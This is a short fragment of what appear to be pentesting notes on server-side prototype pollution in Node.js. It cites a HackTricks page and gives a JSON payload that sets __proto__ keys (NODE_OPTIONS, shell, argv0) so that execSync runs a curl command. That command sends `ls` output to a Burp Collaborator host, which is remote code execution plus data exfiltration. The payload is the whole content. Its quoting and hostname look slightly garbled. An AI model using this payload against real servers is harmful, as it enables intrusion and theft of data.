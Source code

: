 


### Exfiltrating sensitive data via server-side prototype pollution\
Payload
```js
URL's : "https://book.hacktricks.wiki/en/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce.html?highlight=prototype%20rce#prototype-pollution-to-rce

'{
	"__proto__": 
	{
		"NODE_OPTIONS": "--require /proc/self/cmdline", 
		"shell": "node",
		"argv0": "require('child_process').execSync('curl `ls ` burpsuite-collbabrator') //"
	}
}'
```